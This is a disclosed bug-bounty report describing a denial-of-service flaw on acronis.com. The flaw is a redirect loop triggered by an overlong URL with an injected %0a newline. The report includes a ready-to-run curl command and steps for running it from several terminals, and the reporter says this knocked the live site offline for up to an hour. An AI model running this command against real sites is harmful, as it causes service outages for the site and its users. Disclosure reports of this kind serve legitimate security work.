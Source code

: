 # %0A (New line) and limitness URL leads to DoS at all system [Main adress (https://www.acronis.com/)]

## Report Details
- **Report ID**: 1382448
- **URL**: https://hackerone.com/reports/1382448
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-10-26T19:51:27.875Z
- **Disclosed**: 2022-01-04T09:47:15.200Z

## Reporter
- **Username**: plantos
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Hello team, hopefully you are happy now

I found a DoS vulnerabilty at https://www.acronis.com/ (Note: site is still down and this is not intentional behavior and i didn't use any automated tool)
At first i saw this code at site: <a href="URL/path">someting</a> and tried XSS but site was filtered " and '. So i tried with new line command (%0a) and the site gave 301 and again and again. Then i think like this: this is be DoS? And tried at just 1 page and no result :( Then i opened a few (10-15) page and execute this curl command: 

curl -L --max-redirs 100 "https://www.acronis.com/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/%0ahttps:/www.acronis.com/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/%0A" and it's worked. I refreshed the page and site gave 502 bad gateway a said yesss and stoped the attack. But site gave 502 about 30 m - 1 hour.

--------------------------------------------------------------------------------------------------------------------------------------

Steps to reproduce:

1) Go to https://www.acronis.com/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/%0ahttps:/www.acronis.com/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/%0A at your browser at 10-15 page

2) Execute this command at kali linux a few times and at a few terminal: curl -L --max-redirs 100 "https://www.acronis.com/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/%0ahttps:/www.acronis.com/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/en-us/%0A"

3) Check the adress (https://www.acronis.com/) and as you can see site will give 502 bad gateway

--------------------------------------------------------------------------------------------------------------------------------------

Check-host report: https://check-host.net/check-report/523034ckf92

Fix: idk why have this problem (%0a - 301) but another reason for this problem is that the site allows very long characters. So you should limit the number of characters in the URL and solve the other problem

Best Regards,
Plantos

## Impact

An attacker can down the acronis services at just 2 mins.

## Attachments
- acronis-dos.png
